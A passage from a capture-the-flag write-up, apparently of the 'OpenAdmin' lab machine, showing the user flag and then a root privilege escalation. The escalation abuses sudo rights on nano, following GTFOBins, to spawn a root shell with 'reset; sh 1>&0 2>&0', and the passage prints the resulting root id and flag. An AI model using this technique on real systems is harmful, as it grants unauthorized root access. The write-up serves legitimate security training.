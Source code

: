 Got the user flag
```sh
joanna@openadmin:~$ cat user.txt
35b5cf3e96f0fc144837d79d5e95936e
```

Joanna has sudo privileges for `nano`.
Looking at GTFOBins, there's an easy way to execute commands as root if you have Sudo privileges on Nano:
![[gtfobins_nano.png]]

Opening the root owned file `/opt/priv` in nano and using the above commands successfully granted command execution as root.
Got the root flag.
```sh
Command to execute: reset; sh 1>&0 2>&0
# id             
uid=0(root) gid=0(root) groups=0(root)                                                                                
# cat /root/root.txt                                                                                                  
6272d939337c03ad4e5b78068a62d71e
```

![[openadmin_completed.png]]
